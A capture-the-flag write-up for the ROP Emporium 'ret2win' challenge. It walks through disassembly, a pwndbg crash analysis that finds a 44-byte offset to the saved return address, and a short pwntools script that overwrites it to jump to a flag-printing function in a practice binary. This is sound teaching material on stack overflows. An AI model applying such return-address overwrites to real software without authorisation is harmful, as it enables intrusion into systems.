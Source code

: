```yaml
---
title: "ret2win [ROP Emporium]"
date: 2018-05-20 00:00:06 +0530
categories:
  - Write-ups
header:
  teaser: "https://i.imgur.com/FJ8LnvR.png"
tags:
  - ROPEmporium
  - ROP
excerpt: "Writeup for ret2win, problems in the ROP Emporium Problem Set"
---
```

Here's the [problem link](https://ropemporium.com/challenge/ret2win.html).  
Here are the provided binaries:
[32bit](/assets/write-ups/ropemporium/ret2win/ret2win32), [64bit](/assets/write-ups/ropemporium/ret2win/ret2win)



```
Locate a method within the binary that you want to call and do so by
overwriting a saved return address on the stack.
```

Seems pretty easy.  
Since this chal is pretty straightforward, let's
start with the 32 bit one.
`objdump` tells us there is a `ret2win` function:
{% highlight nasm%}
080485f6 <pwnme>:
 80485f6:       55                      push   ebp
 80485f7:       89 e5                   mov    ebp,esp
 80485f9:       83 ec 28                sub    esp,0x28
 80485fc:       83 ec 04                sub    esp,0x4
                            ...
 8048653:       83 c4 10                add    esp,0x10
 8048656:       90                      nop
 8048657:       c9                      leave
 8048658:       c3                      ret

08048659 <ret2win>:
 8048659:       55                      push   ebp
 804865a:       89 e5                   mov    ebp,esp
 804865c:       83 ec 08                sub    esp,0x8
 804865f:       83 ec 0c                sub    esp,0xc
 8048662:       68 24 88 04 08          push   0x8048824
 8048667:       e8 94 fd ff ff          call   8048400 <printf@plt>
 804866c:       83 c4 10                add    esp,0x10
 804866f:       83 ec 0c                sub    esp,0xc
 8048672:       68 41 88 04 08          push   0x8048841
 8048677:       e8 b4 fd ff ff          call   8048430 <system@plt>
 804867c:       83 c4 10                add    esp,0x10
 804867f:       90                      nop
 8048680:       c9                      leave
 8048681:       c3                      ret
{% endhighlight %}

This is basically a `cat flag.txt` which needs to be jumped to.  
Let's run this:
```console
$ ./ret2win32
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

>
```

Let's do it:

<!--![](/assets/write-ups/ropemporium/ret2win/pwndbg.png)-->

{% highlight nasm%}
$ pwndbg ./ret2win32
Reading symbols from ./ret2win32...(no debugging symbols found)...done.
pwndbg: loaded 177 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
pwndbg> r
Starting program: /home/kunal/Documents/CTF/ROPEMporiumAgain/ret2win/32bit/ret2win32
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────[ REGISTERS ]─────────────────────────────────────────
 EAX  0xffffc8e0 ◂— 0x61616161 ('aaaa')
 EBX  0x0
 ECX  0xf7f8889c ◂— 0x0
 EDX  0xffffc8e0 ◂— 0x61616161 ('aaaa')
 EDI  0xf7f87000 ◂— 0x1d9d6c
 ESI  0xf7f87000 ◂— 0x1d9d6c
 EBP  0x6161616b ('kaaa')
 ESP  0xffffc910 —▸ 0xf7fe006d ◂— jge    0xf7fe0077
 EIP  0x6161616c ('laaa')
──────────────────────────────────────────[ DISASM ]───────────────────────────────────────────
Invalid address 0x6161616c






───────────────────────────────────────────[ STACK ]───────────────────────────────────────────
00:0000│ esp  0xffffc910 —▸ 0xf7fe006d ◂— jge    0xf7fe0077
01:0004│      0xffffc914 —▸ 0xffffc930 ◂— 0x1
02:0008│      0xffffc918 ◂— 0x0
03:000c│      0xffffc91c —▸ 0xf7dc7b41 (__libc_start_main+241) ◂— add    esp, 0x10
04:0010│      0xffffc920 —▸ 0xf7f87000 ◂— 0x1d9d6c
... ↓
06:0018│      0xffffc928 ◂— 0x0
07:001c│      0xffffc92c —▸ 0xf7dc7b41 (__libc_start_main+241) ◂— add    esp, 0x10
─────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────
 ► f 0 6161616c
Program received signal SIGSEGV (fault address 0x6161616c)
pwndbg>

{% endhighlight %}

Find the offset to overwrite the saved `eip`:

```console
cyclic -l 0x6161616c
44
```

And write the corresponding address of our `ret2win` function (`0x08048659`) after the 44 byte padding:

{% highlight python %}
from pwn import *
context.update(arch='i386', os='linux')

binary = './ret2win32'
elf = ELF(binary)

win = elf.functions['ret2win'].address


with open('solve.txt', 'w') as f:
    f.write(cyclic(44))
    f.write(p32(win))

# p = process(binary)
# p.send(cyclic(44) + p32(win))
# p.interactive()
{% endhighlight %}

And finally get the flag:

```console
$ ./ret2win32 < solve.txt
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
zsh: segmentation fault (core dumped)  ./ret2win32 < solve.txt
```

The 64bit version can be easily solved by simply changing the padding to
`40` and updating the `ret2win`'s address.
